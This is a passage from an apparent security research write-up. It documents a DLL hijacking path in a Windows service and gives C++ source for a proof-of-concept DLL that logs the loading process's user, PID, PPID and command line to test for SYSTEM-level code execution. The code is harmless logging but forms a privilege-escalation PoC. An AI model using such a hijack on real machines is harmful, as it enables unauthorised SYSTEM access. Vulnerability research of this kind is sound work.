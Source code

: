 That's a good start but I'm missing some key elements. For example, I have no clue how this "task" is run. I don't even know whether I would be able to trigger it as a regular user. So, rather than starting to reverse enginneer the service without really knowing what I was looking for, I decided to create a PoC DLL and verify if I could really get arbitrary code execution as `NT AUTHORITY\System`.  

## Crafting a PoC DLL 

My objective for this PoC DLL was very simple. I wanted to __log some key information__ about the process that loaded it: the __command line__, the __current username__, the __PID__, and the __PPID__. All of this would be logged to `C:\temp\dll.log`. 

For a start, I came up with the following code. The `TrackCall()` function is responsible for gathering and logging the info. It is called from `DllMain()` and `QueryDeviceInformation()` to keep track of which function is called.  

```cpp
#include <Windows.h>
#include <iostream>
#include <Lmcons.h> // UNLEN + GetUserName
#include <tlhelp32.h> // CreateToolhelp32Snapshot()

int TrackCall(const wchar_t * callingFrom)
{
    WCHAR strSt[4096], strUsername[UNLEN + 1];
    WCHAR * strComandLine;
    SYSTEMTIME st;
    HANDLE hFile, hToolhelpSnapshot;
    PROCESSENTRY32 stProcessEntry;
    DWORD dwPcbBuffer = UNLEN, dwBytesWritten, dwProcessId, dwParentProcessId;
    BOOL bResult;
    
    strComandLine = GetCommandLine(); // Get Command line of the current process 
    bResult = GetUserName(strUsername, &dwPcbBuffer); // Get current user name 
    dwProcessId = GetCurrentProcessId(); // Get PID

    // Get PPID 
    hToolhelpSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    stProcessEntry = { 0 };
    stProcessEntry.dwSize = sizeof(PROCESSENTRY32);
    dwParentProcessId = 0;
    if (Process32First(hToolhelpSnapshot, &stProcessEntry)) {
        do {
            if (stProcessEntry.th32ProcessID == dwProcessId) {
                dwParentProcessId = stProcessEntry.th32ParentProcessID;
                break;
            }
        } while (Process32Next(hToolhelpSnapshot, &stProcessEntry));
    }
    CloseHandle(hToolhelpSnapshot);

    // Create log entry 
    GetLocalTime(&st); 
    wsprintfW(strSt, L"[%.2u:%.2u:%.2u] - PID=%d - PPID=%d - USER='%s' - CMD='%s' - METHOD='%s'\n", st.wHour, st.wMinute, st.wSecond, dwProcessId, dwParentProcessId, strUsername, strComandLine, callingFrom);

    // Save to log file 
    hFile = CreateFile(L"C:\\Temp\\dll.log", FILE_APPEND_DATA, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL); 
    if (hFile != INVALID_HANDLE_VALUE)
        bResult = WriteFile(hFile, strSt, lstrlenW(strSt)*sizeof(WCHAR), &dwBytesWritten, NULL);
    
    CloseHandle(hFile);
```